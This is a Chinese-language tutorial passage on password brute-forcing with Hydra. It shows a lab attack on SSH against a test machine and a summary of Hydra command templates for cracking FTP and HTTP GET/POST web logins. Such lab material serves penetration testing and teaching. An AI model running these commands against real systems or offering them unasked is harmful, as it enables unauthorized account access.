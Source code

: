 三、案例分析
------

**暴破ssh登录密码**

**环境介绍**

> 攻击机：kali  
> 装有hydra工具  
> 靶机：192.168.154.131  
> 安装ssh服务，正常运行

为了测试方便，我们创建两个简单的字典文件，如下：

<img src="https://pic1.zhimg.com/v2-74b1e34674d100d1b805cf1bd8fe4768\_b.jpg" data-caption="" data-size="normal" data-rawwidth="415" data-rawheight="194" class="content\_image" width="415"/>

![](https://pic1.zhimg.com/80/v2-74b1e34674d100d1b805cf1bd8fe4768_1440w.webp)

**开始爆破**

根据命令参数，组织参数格式如下：

```text
root@kali:/mnt# hydra -L user.txt -P password.txt -t 2 -vV -e ns 192.168.154.131 ssh
```

**破解成功**

因为字典数量比较少，我们可以轻易的破解成功，但是实际情况下，我们可能需要很久。

<img src="https://pic4.zhimg.com/v2-fa6cfa903a05d47d81e457e6ee0198cb\_b.jpg" data-caption="" data-size="normal" data-rawwidth="1159" data-rawheight="554" class="origin\_image zh-lightbox-thumb" width="1159" data-original="https://pic4.zhimg.com/v2-fa6cfa903a05d47d81e457e6ee0198cb\_r.jpg"/>

![](https://pic4.zhimg.com/80/v2-fa6cfa903a05d47d81e457e6ee0198cb_1440w.webp)

**测试登录**

使用得到的用户名/密码登录服务器，登录成功

<img src="https://pic2.zhimg.com/v2-f33fc7af70d32cb59f6087fc5b31d381\_b.jpg" data-caption="" data-size="normal" data-rawwidth="637" data-rawheight="289" class="origin\_image zh-lightbox-thumb" width="637" data-original="https://pic2.zhimg.com/v2-f33fc7af70d32cb59f6087fc5b31d381\_r.jpg"/>

![](https://pic2.zhimg.com/80/v2-f33fc7af70d32cb59f6087fc5b31d381_1440w.webp)

三、各种协议破解汇总
----------

**FTP协议破解**

```text
破解ftp：
 
hydra -L 用户名字典 -P 密码字典 -t 6 -e ns IP地址 -v
```

**http协议破解**

```text
get方式提交，破解web登录：
 
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns IP地址 http-get /admin/
hydra -L 用户名字典 -P 密码字典 -t 线程 -v -e ns -f IP地址 http-get /admin/index.php
 
post方式提交，破解web登录：
 
hydra -f -l 用户名 -P 密码字典 -V -s 9900 IP地址 http-post-form "/admin/index.php?action=login:user=USER&pw=PASS:"
 
 
#/index.php …这个是登录的 url
#后门是POST的数据 其中的用户名密码使用 USER PASS 来代替
#然后是如果登录出错 会出现的字符 。。。然后开始破解
```